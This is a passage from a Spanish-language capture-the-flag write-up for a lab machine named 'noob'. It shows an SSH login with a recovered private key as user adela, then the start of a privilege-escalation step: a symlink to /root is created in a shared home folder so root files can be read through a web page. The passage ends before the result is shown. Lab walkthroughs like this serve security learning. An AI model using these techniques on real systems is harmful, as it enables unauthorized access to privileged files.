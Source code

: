 Nos conectaremos mediante la clave `PEM` de la siguiente forma:

```shell
ssh -i id_rsa adela@<IP>
```

Info:

```
The authenticity of host '192.168.1.170 (192.168.1.170)' can't be established.
ED25519 key fingerprint is SHA256:0ug88klEB+Auk3kP/jhWOHJJZmKXY2RjjR4GnhZdYuQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.170' (ED25519) to the list of known hosts.
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 14 02:50:51 2021 from 192.168.1.51
adela@noob:~$ whoami
adela
```

Y con esto ya estaremos dentro con dicho usuario.

## Escalate Privileges

Como vemos que se esta compartiendo la carpeta del usuario `adela` vamos a probar a crear un `enlace simbolico` hacia la carpeta de `root` por si el usuario que esta ejecutando la aplicacion donde se esta compartiendo la carpeta de dicho usuario fuera con privilegios elevados.

```shell
ln -s /root root_directory
```

Info:

```
lrwxrwxrwx 1 adela adela    5 Apr  8 06:19 root_directory -> /root
```

Ahora vamos a meternos en la pagina y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que se esta viendo de forma correcta, ahora vamos a probar a meternos:
